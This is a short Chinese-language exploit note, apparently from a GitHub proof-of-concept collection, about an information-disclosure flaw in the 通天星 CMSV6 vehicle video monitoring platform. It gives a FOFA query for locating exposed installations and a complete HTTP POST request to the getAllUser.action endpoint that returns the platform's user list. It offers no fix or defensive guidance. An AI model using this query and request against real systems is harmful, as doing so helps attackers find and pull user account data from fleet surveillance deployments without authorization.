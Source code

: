 ## 通天星CMSV6车载视频监控平台getAlser.acion接口处存在信息泄露漏洞

通天星CMSV6车载视频监控平台 StandardLoginAction getAlser.acion接口处存在信息泄露漏洞

## fofa

```
body="/808gps/"
```

## poc

```
POST /808gps/StandardLoginAction_getAllUser.action HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Connection: close
Content-Length: 9
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate

json=null
```

![1708927720796.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405242252677.png)
